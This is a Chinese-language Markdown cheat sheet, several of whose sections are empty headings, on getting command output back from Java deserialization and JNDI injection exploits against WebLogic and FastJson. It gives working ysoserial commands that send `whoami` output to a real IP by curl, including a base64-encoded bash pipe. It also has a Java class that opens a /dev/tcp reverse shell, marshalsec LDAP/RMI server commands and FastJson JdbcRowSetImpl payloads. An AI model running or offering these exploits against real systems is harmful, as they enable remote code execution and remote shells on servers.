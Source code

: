# Java 回显

### 回显方式
- 1、web中获取当前上下文对象（response、context、writer等）
    -  defineClass
    -  中间件
- 2、报错回显
    -  URLClassLoader抛出异常
- 3、可以出网情况
    -  Dnslog OOB
    -  JNDI注入回显
    -  RMI绑定实例
- 4、写文件

### 方式分析

#### 一、web中获取当前上下文对象（response、context、writer等）回显

##### defineClass

##### 中间件

#### 二、报错回显

 URLClassLoader抛出异常
 
#### 三、可以出网情况回显

##### HTTP OOB (受限比较大)
###### 限制条件
- 1、宿主机必须要可以访问外网
- 2、宿主机可能不包含特定命令
- 3、需要知道宿主机的系统类型

###### 具体步骤

- java -jar ysoserial.jar CommonsCollections1 "curl http://108.61.162.13:8098/p/8bfade/FPsl/`whoami`" > poc.ser (无法执行成功)

- 需要执行的命令在 http://www.jackson-t.ca/runtime-exec-payloads.html 进行处理一下

- java -jar ysoserial.jar CommonsCollections1 "bash -c {echo,Y3VybCBodHRwOi8vMTA4LjYxLjE2Mi4xMzo4MDk4L3AvZTk3YWJmL0s3RFQvYHdob2FtaWA=}|{base64,-d}|{bash,-i}" > poc.ser

- python weblogic_t3.py 10.91.198.11 7001 poc.ser

##### Dnslog OOB (和HTTP OOB类似)

##### JNDI注入回显

###### 限制条件
- 1、宿主机必须要可以访问外网
- 2、有JDK版本限制

###### 使用步骤(以FastJson为例)
```
POC
// javac TouchFile.java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"bash", "-c", "bash -i >& /dev/tcp/202.182.114.212/1234 0>&1"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
利用步骤

1、将上面的POC编译为Class
    
    javac TouchFile.java

2、使用python搭建一个临时的web服务

    python -m SimpleHTTPServer 8888

3、开启ldap服务或者rmi 服务
    
    ldap (开启ldap 服务端口)
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://202.182.114.212:8888/#TouchFile 9999
    
    rmi (开启rmi 服务端口)
    
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://202.182.114.212:8888/#TouchFile 9999

4、监听端口

    nc -lvvnp 1234
    
5、Burp 发送Poc

    ldap
    
    {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://202.182.114.212:9999/TouchFile","autoCommit":true}}
    
    rmi 
    
    {"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://202.182.114.212:9999/TouchFile","autoCommit":true}}
```

###### 原理

- 1、目标代码中调用了InitialContext.lookup(URI)，且URI为用户可控;
- 2、攻击者控制URI参数为恶意的RMI服务地址，如：rmi://hacker_rmi_server//name;
- 3、攻击者RMI服务器向目标返回一个Reference对象，Reference对象中指定某个精心构造的Factory类;
- 4、目标在进行lookup()操作时，会动态加载并实例化Factory类，接着调用factory.getObjectInstance()获取外部远程对象实例;
- 5、攻击者可以在Factory类文件的构造方法、静态代码块、getObjectInstance()方法等处写入恶意代码，达到RCE的效果;
##### RMI绑定实例

#### 四、写文件回显

#### 五、新的回显思路

##### 1、LINUX 文件描述符

###### 限制条件
- 1、如何确定文件描述符id的情况
- 2、如果没办法确定源IP和端口无法拿到回显
- 3、受网络限制
- 4、只能用于Linux环境

在LINUX环境下，可以通过文件描述符"/proc/self/fd/i"获取到网络连接，在java中我们可以直接通过文件描述符获取到一个Stream对象，对当前网络连接进行读写操作

参考:
- http://foreversong.cn/archives/1459 具体操作步骤
- https://www.cnblogs.com/web21/p/6520164.html socket 文件描述符相关原理
- http://diseng.github.io/2015/04/30/nat    nat网络穿透


### 自动化挖掘

### 参考文章
- https://github.com/feihong-cs/Java-Rce-Echo
- https://gv7.me/articles/2020/semi-automatic-mining-request-implements-multiple-middleware-echo/
- https://www.00theway.org/2020/01/17/java-god-s-eye/
- https://xz.aliyun.com/t/7307  